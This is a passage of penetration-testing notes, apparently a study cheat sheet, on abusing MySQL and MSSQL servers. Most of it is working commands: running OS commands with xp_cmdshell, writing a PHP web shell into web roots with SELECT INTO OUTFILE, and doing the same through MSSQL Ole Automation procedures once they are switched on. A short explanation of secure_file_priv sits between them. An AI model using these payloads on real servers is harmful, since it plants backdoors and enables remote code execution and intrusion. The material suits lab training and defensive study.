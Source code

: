 ##### To use:
```cmd-session
1> xp_cmdshell 'whoami'
2> GO
```

#### MySQL
  If we have the appropriate privileges, we can attempt to write a file using [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) in the webserver directory(either php or ASP.NET).

```shell-session
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

- [secure_file_priv](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv) effects data import and export operations like `LOAD DATA`, `SELECT ... INTO OUTFILE`, and `LOAD_FILE()` - limited to users with the `FILE` permission.

`secure_file_priv` may be set as follows:

- If empty, the variable has no effect, which is not a secure setting.
- If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operations.

If the variable is empty, we can read and write data:
```shell-session
mysql> show variables like "secure_file_priv";

+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+
```

#### MSSQL - Enable Ole Automation Procedures
**Needs administrator**

```cmd-session
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

#### MSSQL - Create a File
**Needs administrator**

```cmd-session
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

